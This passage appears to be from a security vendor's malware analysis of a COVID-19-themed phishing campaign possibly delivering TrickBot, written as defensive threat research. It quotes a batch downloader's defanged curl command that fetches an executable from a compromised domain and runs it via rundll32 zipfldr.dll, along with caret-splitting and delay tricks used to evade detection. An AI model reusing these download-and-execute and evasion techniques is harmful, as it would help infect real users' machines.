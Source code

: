 
us-logo.png
Benign
1af19e6717acf7f38b8f1a651c738954
US-DoL.eml


Scroll to view full table 
Terop.bat
The primary purpose of terop.bat is to download a PE file and execute it using the following commands:
curl https[:]//www[.]omegasystemsuae[.]com/9hfudnsfl.exe –output %appdata%/Bio_Tecs.exe rundll32.exe, zipfldr.dll,RouteTheCall %appdata%\Bio_Tecs.exe 
Some of the commands are broken up using the following technique:
TI^
ME^
OUT ^
Terop.bat contains TIMEOUT /T 30 and ping 8.8.8.8 commands to evade detection and delay execution.
Next, a route is added with the following command:
add 10.0.0.0 mask 255.0.0.0 10.35.8.1 -p.
This route appears to be needed for testing. The pathname, C:\Test, which terop.bat is initially written to, may suggest that this downloader is still being tested by those distributing the malware, which could explain some failures to fetch the final stage payload down the line.
Using the cURL utility, the terop.bat file attempts to download an executable from what appears to be a hijacked or compromised domain: hxxps://www.omegasystemsuae[.]com/9hfudnsfl.exe
The file is set to be written to %APPDATA%\Bio_Tecs.exe. However, since cURL is not available as part of a standard Windows deployment and it was not dropped by the malicious macro, that command ultimately failed and did not actually download the file.
Zipfldr.dll
zipfldr.dll is a standard Windows dynamic link library (DLL) that can be used as an alternate way to execute PE files using the exported function RouteTheCall. This command also fails due to the file not being downloaded nor written to the designated location that was set at %APPDATA%\Bio_Tecs.exe by a cURL command.
Robocopy.exe
Another executable file that takes part in the overall infection routine is named Robocopy.exe. This file is used to move some files as well; however, during our analysis we noticed there was an issue that prevented the macro from writing the command to the batch file and the variables were not expanded. That also caused issues with string concatenation, which resulted in the command failing when the batch file was executed:
robocopy ” & sSource & ” /e /z /s ” & sPath & ” D:\Files E:\Backup ” & sFile
Is It TrickBot?
Without the actual payload, is it TrickBot or another malware? Based on observation of similar patterns in previous TrickBot campaigns, the “Macro on Close” function followed by the DocuSign theme has been a tactic used by this malware’s distributors. Another link to TrickBot is an IP address, 198.72.111.141, also previously linked with hosting TrickBot campaigns.
It is possible that malware is being distributed by the same parties and the final payload is possibly different, but TrickBot mostly uses the same distribution channels compared to more commercialized malware.
Endless COVID-19-Themed Spam Continues to Deliver Malware
As the COVID-19 pandemic continues to hold the attention of people everywhere in an unprecedented manner, we are sure to continue seeing the use of this theme in endless amounts of spam and attacks targeting users across the globe.
The current spam is likely an early warning to those expecting to take advantage of the FMLA during the pandemic to be on the lookout for malicious campaigns. TrickBot spam varies frequently depending on those distributing it, and the issues we detected in the macro scripts are likely to be fixed and relaunched in further spamming activity.
TrickBot is one of the leading and most sophisticated banking Trojans active in the wild this year. It is involved in high-stakes bank fraud, ransomware attacks and big game hunting activity that targets organizations around the globe.
Get indicators of compromise (IoCs) for this campaign on X-Force Exchange, and follow our collections on emerging threat intelligence to keep up to date about trending campaigns.
